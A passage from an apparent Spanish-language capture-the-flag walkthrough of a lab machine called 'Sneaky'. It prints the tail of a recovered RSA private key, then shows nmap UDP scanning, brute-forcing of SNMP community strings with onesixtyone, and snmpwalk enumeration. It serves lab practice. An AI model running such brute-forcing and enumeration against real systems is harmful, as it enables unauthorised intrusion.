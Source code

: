 ```bash
5Kn4ABSCsfmiYf6kN8hhOzPAieARf5wbYhdjC0cxph7nI8P3Y6P9SrY3iFzQcpHY
ChzLrzkvV4wO+THz+QVLgmX3Yp1lmBYOSFwIirt/MmoSaASbqpwhPSUCgYEA2uym
+jZ9l84gdmLk7Z4LznJcvA54GBk6ESnPmUd8BArcYbla5jdSCNL4vfX3+ZaUsmgu
7Z9lLVVv1SjCdpfFM79SqyxzwmclXuwknC2iHtHKDW5aiUMTG3io23K58VDS0VwC
GR4wYcZF0iH/t4tn02qqOPaRGJAB3BD/B8bRxncCgYBI7hpvITl8EGOoOVyqJ8ne
aK0lbXblN2UNQnmnywP+HomHVH6qLIBEvwJPXHTlrFqzA6Q/tv7E3kT195MuS10J
VnfZf6pUiLtupDcYi0CEBmt5tE0cjxr78xYLf80rj8xcz+sSS3nm0ib0RMMAkr4x
hxNWWZcUFcRuxp5ogcvBdQKBgQDB/AYtGhGJbO1Y2WJOpseBY9aGEDAb8maAhNLd
1/iswE7tDMfdzFEVXpNoB0Z2UxZpS2WhyqZlWBoi/93oJa1on/QJlvbv4GO9y3LZ
LJpFwtDNu+XfUJ7irbS51tuqV1qmhmeZiCWIzZ5ahyPGqHEUZaR1mw2QfTIYpLrG
UkbZGwKBgGMjAQBfLX0tpRCPyDNaLebFEmw4yIhB78ElGv6U1oY5qRE04kjHm1k/
Hu+up36u92YlaT7Yk+fsk/k+IvCPum99pF3QR5SGIkZGIxczy7luxyxqDy3UfG31
rOgybvKIVYntsE6raXfnYsEcvfbaE0BsREpcOGYpsE+i7xCRqdLb
-----END RSA PRIVATE KEY-----
```
Como tenemos una clave SSH y el puerto 22 no nos aparece abierto (x reglas de firewall o iptables) para IPV4.
Pensamos que si conseguimos la direccion macc de la maquina podremos probar via IPV6 realizando el escaneo atraves de la macc para ipv6.

Vamos a hacer uso de herramientas como `SNMPWALK` 
Para ello vamos a enumerar un SERVICIO `UDP` llamado `SNMP`.
```bash
# nmap -p161 -sU --open -T5 -vvv -n -Pn 10.10.10.20           
PORT    STATE         SERVICE REASON
161/udp open|filtered snmp    no-response

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
           Raw packets sent: 2 (149B) | Rcvd: 0 (0B)
```
Como vemos no nos reporta que este abierto correctamienta asique vamos a usar la herramienta `Onesixtyone` para hacer fuerza bruta a este servicio y encontrar
la Community-String
Vale pues buscando un Diccionario para averiguar la community Strings del servicio SNMP necesitamos hacer uso de otra herramienta que se llama ONESIXTYONE
```bash
# onesixtyone -c common-snmp-community-strings-onesixtyone.txt 10.10.10.20 
Scanning 1 hosts, 121 communities
10.10.10.20 [public] Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
10.10.10.20 [public] Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
```
Ahi la tenemos: `Linux Sneaky 4.4.0-75-generic`

Ahora procedemos a con la herramienta SNMPWALK 
```bash
# snmpwalk -v2c -c public 10.10.10.20
iso.3.6.1.2.1.1.1.0 = STRING: "Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (351310) 0:58:33.10
iso.3.6.1.2.1.1.4.0 = STRING: "root"
iso.3.6.1.2.1.1.5.0 = STRING: "Sneaky"
iso.3.6.1.2.1.1.6.0 = STRING: "Unknown"
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.6.3.16.2.2.1
```